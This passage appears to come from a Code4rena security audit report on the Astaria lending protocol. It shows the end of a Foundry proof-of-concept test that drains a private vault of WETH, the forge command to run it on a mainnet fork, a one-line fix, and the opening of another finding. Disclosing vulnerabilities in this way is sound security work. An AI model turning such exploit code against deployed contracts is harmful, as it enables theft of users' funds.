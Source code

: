 ```sh
    console.log("------");
    // Vault is drained
    console.log("PrivateVault Balance: %d WETH", WETH9.balanceOf(privateVault));
    assertEq(WETH9.balanceOf(privateVault), 0); 
    // The borrower gets 500 ether
    console.log("Borrower Balance: %d WETH", WETH9.balanceOf(address(this)));
    assertEq(WETH9.balanceOf(address(this)), initialBalance + 500 ether);
    // strategist receives the fake token
    console.log("Strategist Balance: %d FakeToken", FakeToken.balanceOf(strategistOne));
    assertEq(FakeToken.balanceOf(strategistOne), 500 ether);

  }
 
}


```

3.  Then run the forge test command as follows (replace `$FORK_URL` with your RPC URL):

```sh
 forge test --ffi --fork-url $FORK_URL --fork-block-number 15934974 --match-path src/test/StealAllFundsExploit.t.sol -vv
```

The test will pass. I've added comments in the code explaining the steps.

*Note:The attack isn't possible when using AstariaRouter*

### Recommended Mitigation Steps

In VaultImplementation's `commitToLien` function, add the following validation:

```sh
require(address(this) == params.lienRequest.strategy.vault,"INVALID VAULT");
```

Run the PoC test above again, and `testPayWithDifferentAsset` should fail.

**[SantiagoGregory (Astaria) confirmed](https://github.com/code-423n4/2023-01-astaria-findings/issues/409)**



***

## [[H-09] At the second time the nft is used as collateral to take a loan, the debt repayment via auction fund can be failed when liquidation ](https://github.com/code-423n4/2023-01-astaria-findings/issues/379)
*Submitted by [KIntern\_NA](https://github.com/code-423n4/2023-01-astaria-findings/issues/379)*

<https://github.com/code-423n4/2023-01-astaria/blob/1bfc58b42109b839528ab1c21dc9803d663df898/src/ClearingHouse.sol#L143-L146>

When a user transfer an NFT to `CollateralToken` contract, it will toggle the function `CollateralToken.onERC721Received()`. In this function if there didn't exist any `clearingHouse` for the `collateralId`, it will create a new one for that collateral.
